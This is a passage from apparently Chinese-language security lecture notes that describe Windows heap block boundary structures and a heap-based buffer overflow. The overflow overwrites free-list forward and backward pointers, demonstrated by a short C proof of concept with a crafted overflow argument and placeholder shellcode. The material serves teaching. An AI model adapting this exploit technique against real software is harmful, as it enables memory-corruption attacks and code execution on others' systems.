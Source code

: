 		![块边界结构](md-img/20191021_08.png)
        <figcaption>块边界结构</figcaption>
        </figure>

        - 自身大小
		- 前一块大小
		- busy标志位
		- 当块被释放时：
			1. 边界标志仍然存在
			2. 空闲内存包含下一块和上一块地址
			3. busy标志位被清空

#### 基于堆的缓冲区溢出攻击
* 改写双链表结构中的前向和后向指针

	```c linenums="1" hl_lines="8-12 14"
	unsigned char shellcode[] = "\x90\x90\x90\x90";
	unsigned char malArg[] = "0123456789012345"
				"\x05\x00\x03\x00\x00\x00\x08\x00"
				"\xb8\xf5\x12\x00\x40\x90\x40\x00";
	void mem() {
		HANDLE hp;
		HLOCAL h1 = 0, h2 = 0, h3 = 0, h4 = 0;
	    hp = HeapCreate(0, 0x1000, 0x10000);
	    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128);
	    h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
	    HeapFree(hp,0,h2); // (1)
	    memcpy(h1, malArg, 32); 	// (2)
	    h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128); // (3)
		// (4)!
		return;
	}
	int _tmain(int argc, _TCHAR* argv[]) {
		mem();
		return 0;    // (5)
	}
	```
